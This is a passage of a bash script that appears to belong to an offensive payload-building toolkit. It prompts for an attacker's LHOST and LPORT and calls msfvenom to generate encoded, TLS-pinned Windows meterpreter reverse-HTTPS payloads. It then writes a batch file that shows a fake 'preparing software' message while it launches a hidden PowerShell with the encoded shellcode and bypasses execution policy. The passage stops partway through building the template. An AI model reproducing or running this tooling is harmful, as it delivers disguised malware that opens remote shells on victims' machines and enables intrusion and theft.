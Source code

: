     # For this use case, we will combine Payload UUID tracking with TLS pinning.
    #
    echo ${BlueF}[☠]${white} Building staged payload.$DEFAULT_EXT ..${BlueF};
    LhOsT=$(zenity --title="☠ Enter  LHOST ☠" --text "example: $IP" --entry --width 270) > /dev/null 2>&1
    LpOrT=$(zenity --title="☠ Enter  LPORT ☠" --text "example: 1337" --entry --width 270) > /dev/null 2>&1
    paylo=$(zenity --list --title "☠ PAYLOADS AVAILABLE ☠" --text "\nChose payload to build:" --radiolist --column "Pick" --column "Option" TRUE "windows/meterpreter/reverse_winhttps" FALSE "windows/meterpreter/reverse_https" FALSE "windows/x64/meterpreter/reverse_https" --width 350 --height 250) > /dev/null 2>&1
     # Config correct payload arch selected ..
     if [ "$paylo" = "windows/x64/meterpreter/reverse_https" ]; then
       ArCh="x64"
     else
       ArCh="x86"
     fi
     # config correct format ..
     if [ "$DEFAULT_EXT" = "exe" ]; then
       format="exe"
     else
       format="psh-cmd"
     fi
    msfvenom -p $paylo LHOST=$LhOsT LPORT=$LpOrT PayloadUUIDTracking=true HandlerSSLCert=$IPATH/output/$N4M3.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH --platform windows --smallest -e $ENCODE -i $ENCODE_NUMB -a $ArCh -f $format -o paranoid-staged.$DEFAULT_EXT

      #
      # head (shellcode) - paranoid-staged.bat
      #
      if [ "$DEFAULT_EXT" = "exe" ]; then
        echo "No template required" > /dev/null 2>&1
      else
        str0=`cat $IPATH/output/paranoid-staged.$DEFAULT_EXT | awk {'print $12'}`
        rm $IPATH/output/paranoid-staged.$DEFAULT_EXT > /dev/null 2>&1
      fi
      echo ${BlueF}[☠]${white} Building template ..${Reset};
      sleep 2
        #
        # build template file ( bat | ps1 | txt)
        #
        if [ "$DEFAULT_EXT" = "bat" ]; then
          echo ":: template batch | Author: r00t-3xp10it" > $IPATH/output/template
          echo ":: ---" >> $IPATH/output/template
          echo "@echo off" >> $IPATH/output/template
          echo "echo [*] Please wait, preparing software ..." >> $IPATH/output/template
          echo "%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -Exec Bypass -noni -enc $str0" >> $IPATH/output/template
          echo "exit" >> $IPATH/output/template
          mv -f template paranoid-staged.$DEFAULT_EXT
          # no template required ..
        elif [ "$DEFAULT_EXT" = "exe" ]; then
          echo "No template required" > /dev/null 2>&1